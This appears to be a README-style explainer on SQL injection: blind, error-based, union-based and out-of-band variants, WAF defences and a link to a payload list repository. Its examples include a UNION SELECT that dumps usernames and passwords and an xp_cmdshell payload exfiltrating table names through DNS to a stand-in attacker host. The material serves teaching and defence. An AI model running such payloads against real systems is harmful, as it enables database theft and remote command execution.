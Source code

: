 # SQL-Injection

SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands that was not intended to be displayed.

Git Link: [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list.git)

## Types of Attacks

### 1. Blind SQL Injection

It is a type of SQL injection attack where the attacker does not receive direct responses from the web application about the success or failure of SQL queries executed against the database.

#### A) Boolean-Based Blind SQL Injection

Here, the attacker sends SQL queries that result in a true or false condition.

**Example:**
Injecting a query that asks if a condition is true
```sql
WHERE username='admin' AND password LIKE 'a%'
```

If the application delays in generating a response or different error messages, the attacker can infer whether their injected condition was true or false.

#### B) Time-Based Blind SQL Injection

Another approach involves using time delays in SQL queries to infer information.

**Example:**

```sql
WAITFOR DELAY '0:0:5'
```

If the application takes longer to respond, it indicates that the condition was true.

### 2. In-Band SQL Injection

It is a type of attack where an attacker uses the same communication channel that is between the web application and backend database which is used by legitimate users for data retrieval. Attackers use this for launching the attack and collecting the results.

#### A) Error-Based SQL Injection

Error-based SQLi is an in-band SQL Injection technique that relies on error messages thrown by the database server to obtain information about the structure of the database.

**Example:**

- Actual URL: `http://example.com/product?id=10`
- Modified URL: `http://example.com/product?id=10'`
- Error Displayed: `SQL error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1`

#### B) Union-Based SQL Injection

It is also an in-band SQL injection technique that leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response.

**Example:**

- Actual URL: `http://example.com/product?id=10`
- Modified URL: `http://example.com/product?id=10  UNION SELECT username, password FROM users`

### 3. Out-Of-Band SQL Injection

It is a type of SQL injection attack where the attacker uses different channels for sending the malicious payload and for retrieving the data. This method is typically used when the attacked web application does not return the results of the SQL query directly or when the time-based techniques are too slow or unreliable.

**Example:**

- Actual URL: `http://example.com/product?id=10`
- Payload: `10; EXEC xp_cmdshell 'nslookup ' + (SELECT name FROM sysobjects WHERE xtype='U' AND name NOT IN ('sysdiagrams')) + '.attacker.com'—`

## Preventive Measures

### 1. Input Filtering and Validation

- **SQL Injection Patterns**: Configure the WAF to block known SQL injection patterns, such as `--`, `;`, `/*`, `' OR 1=1`, and `UNION SELECT`.
- **Payload Length Checks**: Limit the length of user inputs to prevent excessively long payloads that could be used in SQL injection attacks.
- **Whitelisting and Blacklisting**: Use whitelisting to allow only safe characters in user inputs and blacklisting to block potentially dangerous inputs.

### 2. Behavioural Analysis

- **Anomaly Detection**: Enable anomaly detection to identify and block abnormal request patterns that might indicate an SQL injection attempt.
- **Rate Limiting**: Implement rate limiting to prevent attackers from making multiple rapid requests aimed at exploiting SQL injection vulnerabilities.

### 3. Response Analysis

- **Error Message Suppression**: Configure the WAF to intercept and modify or suppress error messages that could reveal SQL injection vulnerabilities.
- **Generic Error Pages**: Ensure that the application returns generic error pages without revealing database information.

### 4. Logging and Monitoring

- **Real-Time Alerts**: Set up real-time alerts for suspected SQL injection attempts so that immediate action can be taken.
- **Comprehensive Logging**: Enable detailed logging of all requests and WAF actions to facilitate forensic analysis and continuous improvement.

## Usage

Clone the repository:

```bash
git clone https://github.com/payloadbox/sql-injection-payload-list.git
cd sql-injection-payload-list
```

